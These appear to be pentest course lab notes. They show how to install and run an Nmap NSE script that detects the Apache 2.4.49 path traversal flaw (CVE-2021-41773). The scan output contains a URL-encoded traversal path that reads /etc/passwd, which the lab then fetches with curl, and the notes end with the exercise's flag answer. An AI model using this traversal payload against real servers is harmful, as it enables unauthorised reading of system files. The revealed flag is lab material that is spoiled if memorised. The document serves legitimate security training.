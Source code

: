 # Working with NSE Scripts

Searching for an NSE script for a specific CVE in Google
>``` shell
>Google Search: CVE-2021-41773 nse
>```

Copy the NSE Script and update the script.db database
>``` shell
>kali@kali:~$ sudo cp /home/kali/Downloads/http-vuln-cve-2021-41773.nse /usr/share/nmap/scripts/http-vuln-cve2021-41773.nse
>
>kali@kali:~$ sudo nmap --script-updatedb
>
># ========== Expected Result ==========
>[sudo] password for kali: 
>Starting Nmap 7.92 ( https://nmap.org )
>NSE: Updating rule database.
>NSE: Script Database updated successfully.
>Nmap done: 0 IP addresses (0 hosts up) scanned in 0.54 seconds
># =====================================
>```

CVE-2021-41773 NSE Script
>``` shell
>kali@kali:~$ sudo nmap -sV -p 443 --script "http-vuln-cve2021-41773" 192.168.50.124
>
># ========== Expected Result ==========
>Starting Nmap 7.92 ( https://nmap.org )
>Host is up (0.00069s latency).
>
>PORT    STATE SERVICE VERSION
>443/tcp open  http    Apache httpd 2.4.49 ((Unix))
>| http-vuln-cve2021-41773:
>|   VULNERABLE:
>|   Path traversal and file disclosure vulnerability in Apache HTTP Server 2.4.49
>|     State: VULNERABLE
>|               A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack to map URLs to files outside the expected document root. If files outside of the document root are not >protected by "require all denied" these requests can succeed. Additionally this flaw could leak the source of interpreted files like CGI scripts. This issue is known to be exploited in the wild. This issue only affects Apache 2.4.49 and not earlier >versions.
>|           
>|     Disclosure date: 2021-10-05
>|     Check results:
>|       
>|         Verify arbitrary file read: https://192.168.50.124:443/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
>...
>Nmap done: 1 IP address (1 host up) scanned in 6.86 seconds
># =====================================
>```

Lab 1 - Capstone Labs: Follow the steps above to perform the vulnerability scan with the custom NSE script on VM #1. Copy the link from the script output after Verify arbitrary file read: and use it as a parameter for curl. This will retrieve the content of /etc/passwd of the target machine and display it. Be aware that you need to use http instead of https while keeping port 443 when you paste the link. Embed the last username of the file in the braces of "OS{}" and provide it as the answer to this exercise.
>``` shell
>
>```
>OS{3b6687a7d2921fed3a75b54c3f761f60}
